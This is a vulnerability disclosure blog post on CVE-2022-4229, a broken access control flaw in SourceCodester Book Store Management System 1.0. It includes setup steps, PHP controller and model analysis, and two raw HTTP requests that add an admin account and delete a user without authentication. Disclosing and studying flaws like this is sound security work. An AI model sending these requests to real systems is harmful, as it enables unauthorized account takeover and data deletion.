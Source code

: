 ```yaml
---
title: "CVE-2022-4229: SourceCodester Book Store Management System 1.0 /bsms_ci/index.php Access Control"
author: msplmee
date: 2022-11-30 11:33:00 +0700
categories: [Blog, CVE]
tags: [CVE]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/posts/CVE-2022-4229/access-control.webp
  alt: Will change in future
---
```


## Introduction

In the realm of cybersecurity, discovering a vulnerability and obtaining a CVE (Common Vulnerabilities and Exposures) entry is a significant achievement. It marks a milestone in an individual's journey as a security researcher, demonstrating their expertise and contribution to the field. In this blog post, I am excited to share my personal journey of uncovering one of the initial CVEs identified by our team. We will delve into the details of CVE-2022-4229, a specific vulnerability impacting the SourceCodester Book Store Management System 1.0, and discuss the implications of its access control issue.

## Understanding CVE-2022-4229

[CVE-2022-4229](https://www.cve.org/CVERecord?id=CVE-2022-4229) is a vulnerability classified as critical was found in SourceCodester Book Store Management System 1.0. This vulnerability affects an unknown part of the file /bsms_ci/index.php. The manipulation with an unknown input leads to a access control vulnerability. The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. As an impact it is known to affect confidentiality, integrity, and availability.

**Affected product(s)/code base**: [Book Store Management System Source Code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip)

**Affected component(s):**

- /bsms_ci/index.php/category/\*
- /bsms_ci/index.php/book/\*
- /bsms_ci/index.php/transaction/\*
- /bsms_ci/index.php/history/\*
- /bsms_ci/index.php/user/\*

## Technical Details

### System Installation/Setup

1. Open your XAMPP Control Panel and start Apache and MySQL.
2. Extract the [downloaded source code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip) zip file.
3. Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
4. Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
5. Create a new database named ci_bsms_db.
6. Import the provided SQL file. The file is known as ci_bsms_db.sql located inside the database folder.
7. Browse the Book Store Management System in a browser. i.e. http://localhost/bsms_ci/

### Source Code Analyst

A PHP function called `add()` responsible for adding a user in the context of a Book Store Management System. Here's a breakdown of the code:

```php
/* Location: ./application/controllers/User.php */
public function add()
{
    if ($this->input->post('save')) {
		if ($this->user->save_user()) {
            $this->session->set_flashdata('message', 'Used Added Successfully');
            redirect('user','refresh');
        } else {
            $this->session->set_flashdata('message', 'Failed to Add');
            redirect('user','refresh');
        }
    }
}

```

When this function is called, it first checks if the 'save' parameter is present in the `POST` request. If it exists, it calls the `save_user()` function of the `$this->user` object.

If the `save_user()` function returns true, indicating that the user was successfully saved in the system, the code sets a flash message using `set_flashdata()` with the message "User Added Successfully". It then redirects the user to the 'user' page using the `redirect()` function.

On the other hand, if the `save_user()` function returns false, indicating a failure in saving the user, the code sets a flash message with the message "Failed to Add" and redirects the user to the 'user' page.

The `save_user()` function is called to save the user's information into the database. Here is the code for the function:

```php
/* Location: ./application/models/M_user.php */
public function save_user()
{
		$object=array(
				'user_code'=>$this->input->post('user_code'),
				'fullname'=>$this->input->post('fullname'),
				'username'=>$this->input->post('username'),
				'password'=>md5($this->input->post('password')),
				'level'=>$this->input->post('level')
			);
		return $this->db->insert('user', $object);
}
```

In this code, the function creates an array called `$object` that contains the user's information. It retrieves the data from the `POST` request parameters such as `user_code`, `fullname`, `username`, `password`, and `level`. The `md5()` function is used to hash the password before storing it in the database.

The function then calls the `insert()` method of the database object (`$this->db`) to insert the `$object` array into the user table.

The function returns the result of the `insert()` method, which indicates whether the user was successfully saved in the database or not.

&#10233; After analyzing the code, it appears that there is a missing check for user authorization or privileges in the `add()` function. This omission can potentially lead to a security vulnerability where unauthorized users can access and add users to the system.

### Exploitation Execution

#### Add new account without cookie

Request:

```http
POST /bsms_ci/index.php/user/add HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

fullname=john&username=john&password=12345&level=admin&save=Save
```

![Add new account without cookie](/assets/img/posts/CVE-2022-4229/add_user.png)

#### Delete account without cookie

```http
GET /bsms_ci/index.php/user/hapus/2 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

![Delete account without cookie](/assets/img/posts/CVE-2022-4229/delete_user.png)

